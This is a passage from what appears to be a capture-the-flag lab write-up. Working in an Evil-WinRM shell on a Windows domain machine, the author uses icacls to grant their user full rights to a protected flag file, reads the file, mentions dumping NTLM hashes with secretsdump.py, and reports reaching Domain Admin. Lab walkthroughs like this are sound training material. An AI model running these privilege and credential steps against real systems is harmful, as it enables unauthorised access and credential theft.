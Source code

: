 ```powershell
```
{: .nolineno}
{: .nolineno}
I can't access <span style="color:#ffff00">system.txt</span> file so lets check the permissions of this file 🔽
```powershell
*Evil-WinRM* PS C:\Users\Administrator> icacls Desktop\system.txt
Desktop\system.txt NT AUTHORITY\SYSTEM:(F)
                   VULNNET-RST\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\Administrator>
```
{: .nolineno}
{: .nolineno}
Now I see that I am user **<span style="color:#ffff00">a-whitehat</span>** so I don't have access to this file but I can change permissions like this 🔽
```powershell
*Evil-WinRM* PS C:\Users\Administrator> icacls C:\Users\Administrator\Desktop\system.txt /grant a-whitehat:f
processed file: C:\Users\Administrator\Desktop\system.txt
Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\Administrator> cat Desktop\system.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG}
*Evil-WinRM* PS C:\Users\Administrator> icacls Desktop\system.txt
Desktop\system.txt VULNNET-RST\a-whitehat:(F)
                   NT AUTHORITY\SYSTEM:(F)
                   VULNNET-RST\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\Administrator>
```
{: .nolineno}
{: .nolineno}
For Administrator shell I could run `secretsdump.py` that will extract the `NTLM` hash for all the users but I am happy with **<span style="color:#ffff00">a-whitehat</span>** user .
I am <span style="color:#61ffe5">Domain Admin</span> now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }